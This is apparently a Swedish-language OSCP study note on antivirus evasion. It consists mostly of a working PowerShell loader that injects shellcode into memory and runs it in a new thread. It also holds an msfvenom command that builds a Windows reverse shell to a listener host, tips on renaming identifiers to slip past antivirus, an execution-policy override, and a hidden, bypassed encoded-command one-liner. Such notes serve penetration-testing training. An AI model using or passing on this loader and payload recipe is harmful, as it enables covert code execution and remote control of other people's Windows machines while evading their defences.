 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/6-antivirus-evasion/2-manual-thread-injection/"}
---
```


### In-memory Thread Injection Using Powershell:

1. Skapa ps1-skript med följande kod:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
2. Generera payload med msfvenom enligt följande:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```
3. Byt ut variabelnamn på t.ex. $winFunc och $sc till mer generiska namn för att ungå AVs. Byt även ut namnet på class-namnet från "Win32" till något annat.
4. Sätt upp lyssnare och exekvera skriptet på valfritt sätt genom powershell (x86).
5. Om det inte tillåts pga execution policies ändra genom:
```powershell
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

------------

### One-liner genom encodedCommand:

Använd https://github.com/darkoperator/powershell_scripts/tree/master och generera en base-64 sträng med hela skriptet genom:
```bash
python3 ps_encoder.py -s malware.ps1
```
Kör sedan commandot i powershell genom:
```powershell
powershell.exe -encodedCommand ...ByAHQALQBzAGwAZQBlAHAAIAA2ADAAIAB9ADsACgA=
```
Extra secrecy:
```powershell
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -encodedCommand
```
